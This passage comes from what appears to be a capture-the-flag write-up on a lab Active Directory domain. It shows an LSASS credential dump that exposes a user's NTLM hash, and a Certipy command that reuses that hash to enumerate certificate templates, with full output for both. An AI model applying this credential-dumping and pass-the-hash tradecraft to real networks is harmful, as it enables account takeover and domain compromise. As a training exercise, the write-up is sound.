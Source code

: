 From LSASS memory dump, we can collect the credentials of the user `CONTI.RU\Дарья` (user E):
```
Authentication Id : 0 ; 337548 (00000000:0005268c)
Session           : Interactive from 1
User Name         : Дарья
Domain            : CONTI
Logon Server      : DC1
Logon Time        : 01/04/2022 11:41:16
SID               : S-1-5-21-2511036384-2806266831-3360082211-1122
        msv :
         [00000003] Primary
         * Username : Дарья
         * Domain   : CONTI
         * NTLM     : 7a0f1f2a2b2a749312b97777b61cd6a5
         * SHA1     : 8007e878e7cd47f7c28d7692c7ca244e0fca07ba
         * DPAPI    : bafcaae286442922333bd3d1b6e3bbe5
        tspkg :
        wdigest :
         * Username : Дарья
         * Domain   : CONTI
         * Password : (null)
        kerberos :
         * Username : Дарья
         * Domain   : CONTI.RU
         * Password : (null)
        ssp :
        credman :
        cloudap :       KO
```

From the BloodHound point of view, this user does not have any interesting privileges, nor any privileges on the `PC1.CONTI.RU` computer.

We have to find another way to escalate privileges. At the beginning of the challenge, we had to play with PKINIT and PFX. Our nmap scan reveals that there is an ADCS role installed on the domain controller and we didn't look at it yet. Time for ADCS information gathering!

We use [Certipy](https://github.com/ly4k/Certipy) excellent tool to enumerate ADCS objects and permissions:
```
$ certipy find -hashes "00000000000000000000000000000000:7a0f1f2a2b2a749312b97777b61cd6a5" 'CONTI.RU/Дарья@10.0.20.11'
Certipy v2.0.9 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Trying to get CA configuration for 'CONTI-DC1-CA' via CSRA
[!] Got error while trying to get CA configuration for 'CONTI-DC1-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'CONTI-DC1-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'CONTI-DC1-CA'
[*] Found 12 enabled certificate templates
[*] Saved text output to '20220401225602_Certipy.txt'
[*] Saved JSON output to '20220401225602_Certipy.json'
[*] Saved BloodHound data to '20220401225602_Certipy.zip'. Drag and drop the file into the BloodHound GUI
```
